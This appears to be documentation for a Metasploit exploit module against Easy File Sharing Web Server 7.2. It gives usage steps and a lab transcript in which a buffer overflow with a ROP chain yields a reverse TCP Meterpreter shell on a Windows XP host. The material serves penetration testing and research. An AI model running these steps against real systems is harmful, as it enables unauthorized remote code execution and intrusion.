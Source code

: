 ## Description

This module exploits a vulnerability in the Easy File Sharing Web Server application. It uses an overflow in the Email Post parameter, bypassing DEP via a ROP chain.

This module allows a remote attacker to execute a payload under the context of the user running the Easy File Sharing application

## Vulnerable Application

[Easy File Sharing](http://www.sharing-file.com/) is a file sharing software that allows visitors to upload/download files easily through a Web Browser (IE, Firefox, Chrome etc.).

This module has been tested successfully on

 * Easy File Sharing 7.2 on Windows XP En Sp3

Installers:

[Easy File Sharing Installers](http://www.sharing-file.com/efssetup.exe)

## Verification Steps

 1. Start `msfconsole`
 2. Do: `use exploits/windows/http/easyfilesharing_post`
 3. Do: `set rhosts [IP]`
 4. Do: `exploit`
 5. You should get your payload executed

## Scenarios

```
root@kali:~$ msfconsole -q
msf > use exploit/windows/http/easyfilesharing_post
msf exploit(easyfilesharing_post) > set RHOST 192.168.56.101
RHOST => 192.168.56.101
msf exploit(easyfilesharing_post) > exploit

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Sending stage (957487 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.101:1253) at 2017-06-17 22:45:34 +0200

meterpreter > sysinfo
Computer    	: MM
OS          	: Windows XP (Build 2600, Service Pack 3).
Architecture	: x86
System Language : en_US
Domain      	: WORKGROUP
Logged On Users : 2
Meterpreter 	: x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.56.101 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(easyfilesharing_post) >
```
